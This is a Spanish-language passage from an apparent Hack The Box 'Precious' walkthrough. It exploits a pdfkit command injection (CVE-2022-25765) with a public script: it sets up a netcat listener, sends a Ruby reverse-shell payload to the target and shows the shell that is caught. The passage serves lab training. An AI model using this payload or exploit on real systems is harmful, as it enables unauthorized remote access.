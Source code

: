 * Abre una **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

* Para usarlo, debemos usar el parámetro -h y usamos **Python 3**:
```bash
python3 exploit-CVE-2022-25765.py -h
UNICORD Exploit for CVE-2022–25765 (pdfkit) - Command Injection
.
Usage:
  python3 exploit-CVE-2022–25765.py -c <command>
  python3 exploit-CVE-2022–25765.py -s <local-IP> <local-port>
  python3 exploit-CVE-2022–25765.py -c <command> [-w <http://target.com/index.html> -p <parameter>]
  python3 exploit-CVE-2022–25765.py -s <local-IP> <local-port> [-w <http://target.com/index.html> -p <parameter>]
  python3 exploit-CVE-2022–25765.py -h
.
Options:
  -c    Custom command mode. Provide command to generate custom payload with.
  -s    Reverse shell mode. Provide local IP and port to generate reverse shell payload with.
  -w    URL of website running vulnerable pdfkit. (Optional)
  -p    POST parameter on website running vulnerable pdfkit. (Optional)
  -h    Show this help menu.
```

* El mismo Exploit nos ayuda con un ejemplo de su uso, curiosamente, se probo este Exploit en la misma máquina:
```bash
python3 exploit-CVE-2022-25765.py -s Tu_IP 443 -w http://precious.htb -p url
.
        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
.    
UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Reverse Shell Sent to Target Website Mode
PAYLOAD: http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("Tu_IP","443"))'`
LOCALIP: Tu_IP:443
WARNING: Be sure to start a local listener on the above IP and port. "nc -lnvp 443".
WEBSITE: http://precious.htb
POSTARG: url
EXPLOIT: Payload sent to website!
SUCCESS: Exploit performed action.
```

* Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.11.189] 42476
whoami
ruby
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```
Y listo, ganamos acceso otra vez.

